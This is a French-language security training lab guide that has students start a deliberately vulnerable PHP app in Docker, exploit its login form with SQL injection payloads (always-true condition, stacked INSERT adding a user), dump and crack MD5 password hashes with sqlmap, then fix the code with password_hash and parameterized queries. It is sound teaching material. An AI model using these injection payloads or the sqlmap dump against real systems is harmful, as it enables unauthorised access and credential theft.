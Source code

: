 # TP - formation sécu n°1

## Déroulement

Suivre les étapes et pratiquer ou suivre la vidéo <https://youtu.be/PSpeF-UU_uk>.

## Démarrage

1. Récupérer le projet et lancer la plateforme

    >```bash
    >    git clone git@github.com:frederictriquet/formation_secu_1.git
    >    cd formation_secu_1/TP/
    >    docker-compose up web pgadmin
    >```

1. Se connecter à <http://localhost:8080/> avec un navigateur.
1. Cliquer sur __reset database__
1. Voir les mauvaises pratiques dans le code :

    - __webapp/webroot/reset.php__
        - les mots de passe sont stockés __hashés en MD5__
    - __webapp/webroot/sqli/index.php__
        - le champ __login__ du formulaire est utilisé directement dans la requête SQL

## Exploitation de l'injection SQL

Le champ __password__ est volontairement visible.
Les mots de passe se trouvent dans __webapp/webroot/reset.php__

1. Cliquer sur __SQL injection__
1. Tester le formulaire
    - __admin__/__incorrect__ : aucun utilisateur ne correspond
    - __admin__/__password__ : 1 utilisateur correspond

1. Dans le champ __login__, tester :
    > login = `'`

    Il n'est pas utile de saisir de mot de passe.

    Initialement, la requête SQL est :

    >```sql
    >$query  = "SELECT COUNT(*) FROM users WHERE login='$login' AND password='$hash';";
    >```

    La requête SQL envoyée à la base de donnée sera :

    >`SELECT COUNT(*) FROM users WHERE login=''' AND password='d41d8cd98f00b204e9800998ecf8427e';`

    Ce qui provoque une erreur de syntaxe au niveau des 3 quotes qui se suivent.

1. Première exploitation : détourner le fonctionnement du code

    > login = `' or 1=1 --`
    >
    >```sql
    >$query = "SELECT COUNT(*) FROM users WHERE login='' or 1=1 --' AND pass...";
    >--------------------------------------------------|_________|
    >```

    - La quote ferme la première chaîne de caractères
    - `or 1=1` est une condition toujours vraie
    - tout ce qui est après `--` est ignoré (commentaires)

    La requête SQL traitée par la base de donnée est donc :

    >```sql
    >SELECT COUNT(*) FROM users WHERE login='' or 1=1
    >```

    Cela va donc renvoyer le nombre d'utilisateurs présents dans la table __users__ au lieu de ne renvoyer que 0 ou 1 lors d'une utilisation normale.

1. Deuxième exploitation : exécuter une requête arbitraire

    > login = `';INSERT INTO users VALUES (12, 'fred', md5('fred')) --`

    La requête devient alors :

    >```sql
    >$query = "SELECT COUNT(*) FROM users WHERE login='';INSERT INTO users VALUES (12, 'fred', md5('fred')) --' AND pass...";
    >```

    La seconde partie est une seconde requête qui ajoute un utilisateur dans la table __users__.

1. Troisième exploitation : avec l'outil dédié __sqlmap__

    > docker-compose run sqlmap -u "http://web/sqli/" --data "login=someuser&password=letMeIn" --batch --dump

    Cet outil exploite les injections SQL et réussit ici à extraire le contenu et la structure des tables. Il sait déchiffrer les champs comme nos mots de passe hashés en MD5.

    ```data
        +----+-------+----------------------------------------------+
        | id | login | password                                     |
        +----+-------+----------------------------------------------+
        | 1  | admin | 5f4dcc3b5aa765d61d8327deb882cf99 (password)  |
        | 2  | alice | 5f4dcc3b5aa765d61d8327deb882cf99 (password)  |
        | 3  | bob   | e99a18c428cb38d5f260853678922e03 (abc123)    |
        | 4  | carol | 8ae1dd156c62f4f0b0b31c29b46f8e48             |
        | 5  | dave  | 437b930db84b8079c2dd804a71936b5f (something) |
        | 12 | fred  | 570a90bfbf8c7eab5dc5d4e26832d5b1 (fred)      |
        +----+-------+----------------------------------------------+
    ```

    Le mot de passe un peu plus complexe de l'utilisatrice __carol__ peut être retrouvé grâce à des [rainbow tables](https://en.wikipedia.org/wiki/Rainbow_table) disponibles par exemple chez [Hash Toolkit](https://hashtoolkit.com/).

## Corriger les vulnérabilités du code

1. modifier soi-même le code ou basculer sur la branche __secure__ :

    >```bash
    >git checkout secure
    >```

1. correction du problème de stockage de mots de passe

    - __webapp/webroot/reset.php__, remplacer

        >```php
        >$hash = md5($user[1]);
        >```

        par

        >```php
        >$hash = password_hash($user[1],PASSWORD_DEFAULT);
        >```

    - __webapp/webroot/reset.php__, remplacer

        >```sql
        >password CHAR(32) NOT NULL
        >```

        par

        >```sql
        >password CHARACTER VARYING(64) NOT NULL
        >```

    - __webapp/webroot/sqli/index.php__, utiliser __password_verify()__

1. correction du problème d'injection
    - __webapp/webroot/sqli/index.php__
        Utiliser les requêtes paramétrées (__pg_query_params()__) partout où des données viennent de l'utilisateur

## Autre mauvaise pratique

- __docker-compose.yml__ et __webapp/webroot/include/db.inc.php__
    l'utilisateur __root__ est utilisé pour toutes les requêtes à la base de données

